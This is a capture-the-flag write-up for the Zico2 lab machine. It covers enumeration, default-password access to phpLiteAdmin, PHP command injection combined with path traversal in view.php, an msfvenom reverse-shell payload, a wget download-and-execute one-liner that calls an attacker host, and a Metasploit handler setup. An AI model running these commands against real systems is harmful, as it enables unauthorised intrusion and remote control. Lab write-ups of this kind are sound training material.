









<div align="center">

# Zico2

### CTF Write-up

[English](README.md) | [فارسی](README.fa.md)

</div>

---

## 1. Network Discovery

The first step was to identify the target machine on the local network.

I used `netdiscover` to scan the local network and discover active hosts. The scan output was used to identify the target machine's IP address:

- **Target IP:** `192.168.43.200`

The command-line output is shown below.


This information provides the target IP for the next enumeration steps.

## 2. Web Enumeration

After identifying the target machine, I entered its IP address (`192.168.43.200`) in the web browser.

A simple online store page appeared, confirming that a web application was running on the target machine.


## 3. Directory Enumeration

Next, I used **DIRB** to discover directories and files exposed by the web server:

```bash
dirb http://192.168.43.200
```

The scan identified several paths, including `/css/`, `/dbadmin/`, `/img/`, `/js/`, and `/vendor/`. It also found `/index`, `/index.html`, `/LICENSE`, `/package`, `/server-status`, `/tools`, and `/view`.

One result that stood out was **`/dbadmin/`**. DIRB reported that this directory was listable, meaning its contents could be browsed through the web server. This made it a useful path to investigate further.

Other notable responses included HTTP 403 for `/cgi-bin/` and `/server-status`, while `/index`, `/index.html`, `/LICENSE`, `/package`, and `/tools` returned HTTP 200.


## 4. Accessing phpLiteAdmin

After discovering `/dbadmin/`, I accessed the following path:

`http://192.168.43.200/dbadmin/`

The page presented a phpLiteAdmin login prompt. It did not request a username and only required a password. The password `admin` was accepted, providing access to the administration interface.



## 5. Database Administration Panel

After gaining access, I inspected the available phpLiteAdmin functionality.

The interface provided functionality for creating and managing databases and files. This became the next area of investigation because it exposed functionality beyond the public-facing store application.



## 6. Creating a PHP File

Using the functionality available in the database administration interface, I created a new file named `code.php` within a newly created database context.

At this stage, the important observation was that the interface allowed a PHP file to be created and subsequently accessed through the same interface.



## 7. Editing the PHP File

I then opened the newly created `code.php` file again. The interface exposed a **Default Value** field that could be used to supply the file contents.

For the moment, the exact PHP payload and its execution result are intentionally not documented here. Those details will be added after confirming the exact code and the resulting output.



## 8. Preparing a Command in the Database

I selected the database file `/usr/databases/ls.php` in phpLiteAdmin and opened the row insertion form for its table, `a`. In the field named `a`, which is displayed with the `integer` type, I entered a PHP snippet intended to list the contents of `/tmp`.

The PHP code entered in the `a` field was:

```php
<?php system("ls /tmp") ?>
```

This command is intended to list the contents of `/tmp`. The screenshot documents the code entered, but does not establish that it was executed or what output it produced. The execution step and its result will be documented separately once verified.




## 9. Testing the `page` Parameter

I inspected the page-loading behaviour of `view.php`. The normal request used the `page` parameter to load `tools.html`:

`http://192.168.43.200/view.php?page=tools.html`

The first screenshot records the page before changing the parameter.


I then changed the parameter to reference the PHP file created earlier, using a relative path that traverses to `/usr/databases/ls.php`:

```text
http://192.168.43.200/view.php?page=../../usr/databases/ls.php
```

The next screenshot shows the response after this request. The output is consistent with the PHP code in `ls.php` being executed and the `ls /tmp` command being run.



This confirms that, in this tested case, the `page` parameter can be manipulated to load a PHP file outside the expected page path, and that the referenced PHP file produced command output. It does **not** establish that every possible file can be loaded or executed; that would require additional testing.

## 10. Generating and Hosting a Meterpreter Payload



After the previous test, I generated a Linux x86 Meterpreter reverse TCP payload with `msfvenom`. The payload was configured to connect back to the Kali machine at `192.168.43.220` on port `444`, and was saved as an ELF file named `IM_HERE` in Apache's document root:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.43.220 lport=444 -f elf > /var/www/html/IM_HERE
```

Metasploit selected Linux as the platform and x86 as the architecture. It reported a payload size of 123 bytes and a final ELF size of 207 bytes.

I verified that the file existed at the specified path:

```bash
ls /var/www/html/IM_HERE
```

Then I started the Apache service:

```bash
systemctl start apache2.service
```

At this point, the payload had been created and placed in the web server's document root, and Apache had been started to make the file available over HTTP. These commands do **not** demonstrate that the target downloaded or executed the payload, nor that a reverse Meterpreter session was established. Those outcomes require separate evidence and will be documented only if confirmed.


## 11. Preparing the PHP Download-and-Execute Command

I returned to the previously created `code.php` file and entered a PHP command intended to download the Meterpreter payload from the Kali machine, save it under `/tmp/IM_HERE`, make it executable, and run it.

The command entered was:

```php
<?php system("wget -O /tmp/IM_HERE http://192.168.43.220/IM_HERE ; cd /tmp ; chmod 777 IM_HERE; ./IM_HERE");?>
```

The `wget` command specifies `/tmp/IM_HERE` as the download destination. The following commands change the working directory to `/tmp`, change the file permissions, and attempt to execute the downloaded file.




This screenshot documents the command entered in the PHP file. It does **not** establish that the PHP code was triggered, that the payload was successfully downloaded or executed, or that a reverse Meterpreter session was received. Those results will be recorded separately after they are verified.


## 12. Starting the Meterpreter Handler

With the payload configured to connect to `192.168.43.220:444`, I opened Metasploit's multi/handler and selected the matching Linux x86 Meterpreter reverse TCP payload:

```text
=[ metasploit v6.4.84-dev                                ]
+ -- --=[ 2,547 exploits - 1,309 auxiliary - 1,683 payloads     ]
+ -- --=[ 432 post - 49 encoders - 13 nops - 9 evasion          ]

Metasploit Documentation: https://docs.metasploit.com/
The Metasploit Framework is a Rapid7 Open Source Project

[*] Starting persistent handler(s)...
msf > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.43.220
lhost => 192.168.43.220
msf exploit(multi/handler) > set lport 444
lport => 444
msf exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.43.220:444
```

The output confirms that the handler started and was listening on `192.168.43.220:444`. It does **not** show an incoming connection or an established Meterpreter session; those require separate confirmation.



---

*AI assistance was used in preparing this README.*
